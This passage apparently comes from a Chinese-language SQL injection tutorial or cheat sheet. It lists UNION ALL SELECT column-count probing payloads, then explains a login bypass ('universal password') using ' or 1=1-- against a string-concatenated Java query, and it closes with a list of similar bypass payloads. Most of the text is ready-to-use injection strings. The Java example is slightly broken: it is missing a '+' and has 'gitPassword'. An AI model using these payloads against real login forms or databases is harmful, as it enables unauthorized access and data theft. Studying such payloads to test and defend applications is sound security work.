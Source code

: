 ```
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
```


## 2.6、万能密码
设现在有一个SQL语句：
```
String sql = "select count(*) from admin where username = '" + admin.getUsername()+"' and password = '"admin.gitPassword() + "'";
```

当我们输入`' or 1=1--`得到
```
select count(*) from admin where username = '' or 1=1--' and password = ''
```

实际执行得SQL语句为：
```
select count(*) from admin where username = '' or 1=1
```
这里password就起不到作用了，因为它被注释掉了，而且`username = '' or 1=1`永远为真，所以就可以绕过账号和密码，实现登录。

**类似的Payload有：**
```
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
```